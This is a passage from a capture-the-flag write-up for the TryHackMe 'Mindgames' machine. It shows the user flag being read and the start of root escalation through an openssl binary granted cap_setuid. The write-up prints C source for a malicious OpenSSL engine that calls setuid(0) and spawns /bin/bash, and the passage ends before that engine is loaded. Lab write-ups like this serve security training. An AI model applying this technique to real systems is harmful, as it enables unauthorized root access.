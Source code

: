 Never mind it! I then enumerate the current directory and easily get the user flag:

```
$ pwd
pwd
/home/mindgames/webserver
$ ls -l
ls -l
total 8
-rw-rw-r-- 1 mindgames mindgames   38 May 11  2020 user.txt
drwxrwxr-x 3 mindgames mindgames 4096 May 11  2020 webserver
$ cat user.txt
cat user.txt
thm{411f7d38247ff441ce4e134b459b6268}
```

### Privilege Escalation → root

I have used multiple ways to enumerate the vulnerabilities which help me to escalate the privilege. After all, I explore the **Linux Capabilities**:

```
$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/openssl = cap_setuid+ep
/home/mindgames/webserver/server = cap_net_bind_service+ep
```

The **openssl** binary has capabilities set as `cap_setuid+ep` is vulnerable. The exploit would be like this:

Install **libssl-dev** library in the local machine using this command:

```
sudo apt install libssl-dev
```

Create an exploit `.c` file with the content as:

{% highlight c linenos %}
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
setuid(0); setgid(0);
system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()

{% endhighlight %}

```
┌──(kali㉿kali)-[~/TryHackMe/mindgame]
└─$ ls -l
total 4
-rw-r--r-- 1 kali kali 189 Sep 22 07:51 exploit.c
```
